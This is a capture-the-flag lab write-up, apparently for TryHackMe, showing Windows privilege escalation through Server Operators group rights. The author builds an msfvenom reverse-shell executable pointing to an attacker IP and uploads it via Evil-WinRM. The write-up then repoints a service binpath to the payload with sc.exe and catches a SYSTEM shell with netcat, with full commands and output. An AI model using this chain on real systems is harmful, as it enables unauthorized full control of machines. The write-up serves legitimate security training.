 # Privilege Escalation

With the built-in menu function in Evil-WinRM we saw some interesting services that are available to us with Set Privileges “True”.

Since our user is a member of the group “Server Operators”, we can stop and start services AND set the PATH of execution. 

That way, we can load a crafted malicious binary.

### Creating the payload

We craft a simple reverse shell payload and upload it through our Evil-WinRM shell session.

`msfvenom -p -p windows/shell_reverse_tcp LHOST=10.11.7.243 LPORT=9000 -f exe -o reverse.exe`

```bash
┌──(kali㉿kali)-[~/tryhackme/services]
└─$ msfvenom -p -p windows/shell_reverse_tcp LHOST=10.11.7.243 LPORT=9000 -f exe -o reverse.exe

##############################

*Evil-WinRM* PS C:\Users\j.rock\Downloads> upload reverse.exe
Info: Uploading meterp.exe to C:\Users\j.rock\Downloads\reverse.exe

                                                             
Data: 276480 bytes of 276480 bytes copied

Info: Upload successful!                                                          
```

### Starting the service with modified PATH

`sc.exe config cfn-hup binpath="C:\Users\j.rock\Downloads\reverse.exe”`

`sc.exe start cfn-hup`

```bash
*Evil-WinRM* PS C:\Users\j.rock\Downloads> sc.exe config cfn-hup binpath="C:\Users\j.rock\Downloads\reverse.exe"
[SC] ChangeServiceConfig SUCCESS
```

### Netcat

We start our NetCat listener on the kali machine and get an elevated shell.

We are now “**nt authority\system**” and can read the last flag.

`nc -lvnp 9000`

```bash
┌──(kali㉿kali)-[~/tryhackme/services]
└─$ nc -lvnp 9000                 
listening on [any] 9000 ...
connect to [10.11.7.243] from (UNKNOWN) [10.10.233.162] 53601
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
THM{S3rv3r_0p3rat0rS}
```